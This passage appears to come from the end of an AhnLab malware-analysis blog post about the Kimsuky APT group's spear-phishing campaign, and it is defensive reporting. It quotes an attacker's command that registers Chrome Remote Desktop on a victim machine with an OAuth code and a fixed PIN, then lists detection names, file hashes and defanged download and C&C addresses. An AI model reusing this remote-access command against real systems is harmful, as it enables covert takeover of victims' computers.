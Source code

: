 

“%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe”
–code=”4/0AbUR2VPfKC4jyx4j-ARJD2NwkebJQOTbicMGcNW1kUn7UNhE0VNaycr3zDhY4tRx9JT4eg”
–redirect-url=”hxxps://remotedesktop.google[.]com/_/oauthredirect”
–name=%COMPUTERNAME%
–pin=230625




 Conclusion

The Kimsuky APT group is continuously launching spear phishing attacks against Korean users. They usually employ methods of malware distribution through disguised document files attached to emails, and users who open these files may lose control over their current system.
The Kimsuky APT group uses AppleSeed, Meterpreter, and VNC malware to gain control over infected systems and even uses the RDP remote desktop service included in Windows by default. Recently, there have been identified cases where the remote desktop feature in Google Chrome was used.
Users who receive suspicious emails must refrain from opening their attachments and update V3 to the latest version to prevent malware infection in advance.
File Detection
– Downloader/BAT.Agent (2023.06.27.03)
– Backdoor/Win.AppleSeed.R588872 (2023.06.27.02)
– Trojan/Win.Akdoor.R470485 (2022.02.05.00)
– Trojan/Win.Generic.R577010 (2023.05.15.02)
Behavior Detection
– Execution/MDP.Regsvr32.M4470
– Execution/EDR.Regsvr32.M11168 (EDR)
– Execution/MDP.Regsvr32.M11169 (MDS)
IOC
MD5
– 80f381a20d466e7a02ea37592a26b0b8 : AppleSeed (AdobeService.dll)
– b6d11017e02e7d569cfe203eda25f3aa : AppleSeed (EastSoftUpdate.dll)
– d2eb306ee0d7dabfe43610e0831bef49 : InfoStealer
– d6a38ffdbac241d69674fb142a420740 : RDP Patcher
– 946e1e0d2e0d7785d2e2bcd3634bcd2a : Chrome Remote Desktop launcher (23.bat)
Download URL
– hxxps://bigfile.mail.naver[.]com/download?fid=lekqm6cmwzu9hqujfovzfq2lfamjkogzkqgrkoewkoeqkabjkxmlkaulfqula3ydaxgrp63cm4u9mopvmqbmpxm/kzk0kzewkxbmfqvxp2== : Ngrok
C&C
– hxxp://getara1.mygamesonline[.]org/ : AppleSeed (AdobeService.dll)
– hxxp://pikaros2.r-e[.]kr/ : AppleSeed (EastSoftUpdate.dll)
Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.


Categories:Malware Information 
Tagged as:Kimsuky,RDP 




Crysis Threat Actor Installing Venus Ransomware Through RDP 

Distribution of NetSupport Malware Using Email 

